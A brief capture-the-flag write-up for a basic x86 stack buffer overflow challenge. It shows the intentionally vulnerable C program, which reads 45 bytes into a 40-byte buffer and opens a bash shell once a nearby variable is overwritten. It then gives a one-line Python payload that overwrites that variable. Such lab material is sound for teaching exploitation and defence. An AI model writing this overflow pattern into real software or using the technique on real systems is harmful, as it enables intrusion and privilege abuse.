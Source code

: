 # ELF x86 - Stack buffer overflow basic 1

this challenge deals with a basic bufferoverflow

code
```
    #include <unistd.h>
    #include <sys/types.h>
    #include <stdlib.h>
    #include <stdio.h>
     
    int main()
    {
     
      int var;
      int check = 0x04030201;
      char buf[40];
     
      fgets(buf,45,stdin);
     
      printf("\n[buf]: %s\n", buf);
      printf("[check] %p\n", check);
     
      if ((check != 0x04030201) && (check != 0xdeadbeef))
        printf ("\nYou are on the right way!\n");
     
      if (check == 0xdeadbeef)
       {
         printf("Yeah dude! You win!\nOpening your shell...\n");
         setreuid(geteuid(), geteuid());
         system("/bin/bash");
         printf("Shell closed! Bye.\n");
       }
       return 0;
    }


```

here the buffer is of 40 bytes and we have to modify the value of check to 0xdeadbeef to get the flag.So this can be done basically with dummy data of 40 bytes and passing 0xdeadbeef after that

payload
```
(python -c "print('A'*40+'\xef\xbe\xad\xde');cat") | ./ch13
```

here cat is used after the payload to stop the program at shell 
